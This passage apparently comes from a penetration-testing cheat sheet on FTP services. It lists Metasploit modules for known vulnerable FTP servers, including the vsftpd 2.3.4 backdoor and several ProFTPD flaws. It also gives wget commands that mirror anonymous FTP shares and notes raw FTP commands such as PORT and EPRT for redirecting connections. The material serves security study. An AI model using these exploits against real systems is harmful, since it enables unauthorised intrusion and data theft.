```bash
msf > use auxiliary/scanner/ftp/easy_file_sharing_ftp

#VSFTPD 2.3.4 [CVE-2011-2523]
msf > use exploit/unix/ftp/vsftpd_234_backdoor

#ProFTPD 1.3.2rc3 – 1.3.3b [CVE-2010-4221]
msf > use exploit/linux/ftp/proftp_telnet_iac

#ProFTPD 1.3.3c [OSVDB-69562]
msf > use exploit/unix/ftp/proftpd_133c_backdoor

#ProFTPd 1.3.5 [CVE-2015-3306]
msf > use exploit/unix/ftp/proftpd_133c_backdoor
Exploit-DB: 36742.txt

#Konica Minolta FTP Utility 1.00 – CWD Command Overflow (SEH) [CVE-2015-7768]
Exploit-DB: 39215
msf > use exploit/windows/ftp/kmftp_utility_cwd
```

<h3>Download All Files From FTP</h3>

```bash
wget -m ftp://anonymous:anonymous@10.10.x.x #Donwload all
wget -m --no-passive ftp://anonymous:anonymous@10.10.x.x #Download all
```

<h2>Some FTP Commands</h2>
 
`USER` username PASS password <br>
`HELP` The server indicates which commands are supported<br>
`PORT` 127,0,0,1,0,80This will indicate the FTP server to establish a connection with the IP 127.0.0.1 in port 80 (you need to put the 5th char as "0" and the 6th as the port in decimal or use the 5th and 6th to express the port in hex).<br>
`EPRT` |2|127.0.0.1|80|This will indicate the FTP server to establish a TCP connection (indicated by "2") with the IP 127.0.0.1 in port 80. This command supports IPv6.<br>
`LIST` This will send the list of files in current folder<br>
`APPE` /path/something.txt This will indicate the FTP to store the data received from a passive connection or from a PORT/EPRT connection to a file. If the filename exists, it will append the data.<br>
`STOR` /path/something.txt Like APPE but it will overwrite the files<br>
`STOU` /path/something.txt Like APPE, but if exists it won't do anything.<br>
`RETR` /path/to/file A passive or a port connection must be establish. Then, the FTP server will send the indicated file through that connection<br>
`REST` 6 This will indicate the server that next time it send something using RETR it should start in the 6th byte.<br>
`TYPE` i Set transfer to binary<br>
`PASV` This will open a passive connection and will indicate the user were he can connects
